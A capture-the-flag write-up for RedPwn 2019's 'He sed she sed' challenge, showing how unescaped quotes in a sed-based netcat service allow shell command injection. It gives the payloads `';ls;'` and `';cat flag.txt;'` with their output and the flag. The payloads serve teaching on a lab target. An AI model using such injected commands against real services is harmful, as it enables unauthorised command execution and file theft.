 ```yaml
---
layout: posts
title:  Red Pwn 2019 -  He sed she sed (Misc)
date:   2019-08-12
categories: [CTFs, redpwn19]
---
```


[~$ cd ..](/ctfs/redpwn19/2019/08/12/index.html)

>he sed she sed
>
>Written by: dns
>
>I'm not really sure what I sed to this program, so it fixes it for me!
>
>nc chall2.2019.redpwn.net 6004

This challenge was a basic command injection based on the command `sed` (which might be really powerful, as long as one knows how to use it!)

The service asks 3 questions
* What you thought you sed
* What you aren't sure you sed
* What you actually sed

and waits for an input for each of them. Finally, based on this input, it displays the message *You actually said* with the output of the command. Injecting a simple quote gave the first indication that something went wrong:
```
What you thought you sed
'
What you aren't sure you sed
'
What you actually sed
'
You actually said
 | sed s///g
```

We can see here that it's a substitution because of the `s`. The syntax of such command is as follows:

`sed s/<regex>/<replace by>/<flags> <string>`

Here, the flag is `g`, meaning that the substitution is globally applied. We control the other values, but because of the messages returned by the server, we know that some simple quotes are not properly closed. By closing the quotes properly and use semi-colon, we can inject our own commands:

```
$ nc chall2.2019.redpwn.net 6004
 What you thought you sed
 ';ls;'
 What you aren't sure you sed

 What you actually sed

 You actually said

bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
sed.py
srv
sys
tmp
usr
var
sh: 1: : Permission denied
```

Let's then `cat` the flag:

```
$ nc chall2.2019.redpwn.net 6004
 What you thought you sed
 ';cat flag.txt;'
 What you aren't sure you sed

 What you actually sed

 You actually said

 flag{th4ts_wh4t_sh3_sed}
 sh: 1: : Permission denied
```

FLAG: **flag{th4ts_wh4t_sh3_sed}**

EOF
